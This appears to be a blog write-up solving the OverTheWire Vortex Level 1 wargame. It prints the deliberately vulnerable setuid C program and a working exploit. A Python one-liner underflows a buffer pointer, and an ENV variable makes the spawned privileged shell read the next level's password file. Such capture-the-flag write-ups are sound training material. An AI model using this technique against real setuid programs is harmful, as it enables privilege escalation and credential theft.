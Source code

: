 +++
title = "OverTheWire: Vortex Level1"
author = "Victor"
date = "2013-05-03"
tags = ["coding", "security", "wargames", "vortex", "appsec"]
category = "blog"
+++

Solution for http://www.overthewire.org/wargames/vortex/vortex1.shtml. Here's the code they have used:

~~~.c
#include 
#include 
#include 
#include

#define e(); if(((unsigned int)ptr & 0xff000000)==0xca000000) { setresuid(geteuid(), geteuid(), geteuid()); execlp("/bin/sh", "sh", "-i", NULL); }

void print(unsigned char *buf, int len)
{
        int i;

        printf("[ ");
        for(i=0; i < len; i++) printf("%x ", buf[i]); 
        printf(" ]\n");
}

int main()
{
        unsigned char buf[512];
        unsigned char *ptr = buf + (sizeof(buf)/2);
        unsigned int x;

        while((x = getchar()) != EOF) {
                switch(x) {
                        case '\n': print(buf, sizeof(buf)); continue; break;
                        case '\\': ptr--; break; 
                        default: e(); if(ptr > buf + sizeof(buf)) continue; ptr++[0] = x; break;
                }
        }
        printf("All done\n");
}
~~~

The executable was at /**vortex**/vortex1:

~~~.shell
$ ls -l /vortex/vortex1
-r-sr-x--- 1 vortex2 vortex1 7398 2011-11-13 23:07 /vortex/vortex1
~~~

I hope you have noticed the SETUID-Bit which belongs to user vortex2. So that programm will run as vortex2. The password we need to find out is at /etc/vortex_pass/vortex2. Now let’s analyze the code...

* There is a buffer `buf` of size 512 * ptr points at the middle of the buffer
* Everytime "\"" is read in, `ptr` is decremented. So we need to set ptr to the beginning of `buf`'s address
* `e()` is a macro which checks if `*ptr = 0xCA`. If this is true, then an "interactive shell will be launched. This is what I did:

~~~.shell
$ python -c 'print "\\"*257 + "\xca" + "XXX"' | /vortex/vortex1 
$ 
~~~

Nothing happens. We need to execute the new process (/bin/sh) with some "extra arguments". I have created following script:

~~~.shell
$ cat script.sh 
cat /etc/vortex_pass/vortex2
~~~

...then as the bash manual states:

>"When invoked as an interactive shell with the name sh, bash looks for the variable ENV, expands its value if it is defined, and uses the expanded value as the name of a file to read and execute"

We'll need to set the ENV variable properly and we're done:

~~~.shell
$ python -c 'print "\\"*257 + "\xca" + "XXX"' | env ENV=/tmp/****/script.sh /vortex/vortex1 
******
$ 
~~~

